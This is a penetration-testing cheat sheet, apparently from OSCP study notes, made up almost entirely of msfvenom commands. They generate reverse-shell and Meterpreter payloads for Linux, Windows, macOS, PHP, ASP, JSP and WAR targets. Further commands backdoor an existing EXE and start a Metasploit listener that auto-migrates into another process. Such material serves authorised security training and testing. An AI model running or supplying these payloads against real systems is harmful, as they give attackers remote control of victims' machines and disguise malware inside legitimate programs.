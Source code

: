 https://medium.com/@hannahsuarez/full-list-of-546-msfvenom-payloads-39adb4d793c9
https://github.com/tagnullde/OSCP/blob/master/oscp-cheatsheet.md
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

# msfvenom
- serivce: all
- tactics: weaponization

## Linux ELF binary
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

## Windows EXE binary 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

MS17-010
msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.124 LPORT=4445

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.239.155 LPORT=4444 -f aspx -o pwn.aspx
### 32 Bit
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell32.exe

### 64Bit
msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell64.exe
    
## Windows Service
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> EXITFUNC=thread -f exe-service > shell-service.exe
    
## Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
    
## PHP 
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > /tmp/shell.php && sed -i 's/#<?php/<?php/' /tmp/shell.php
 msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f raw -o shell.php
> If you use php/reverse_php open the output file with an editor and add `<?php` and `?>` within the script.
use exploit/multi/handler 
set LHOST <$LOCAL_IP>
set LPORT <$LOCAL_PORT>
set PAYLOAD php/meterpreter/reverse_tcp 
exploit
    
## ASP 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp 

## JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
    
## WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
    
## Inject payload into an existing exe file
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -x <template EXE> -f exe > <output.exe>

## dep bypass payload
windows/meterpreter/reverse_nonx_tcp

## multi handler
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set AutoRunScript post/windows/manage/migrate
set lhost 10.10.12.102
set lport 9001
exploit
```
--- 
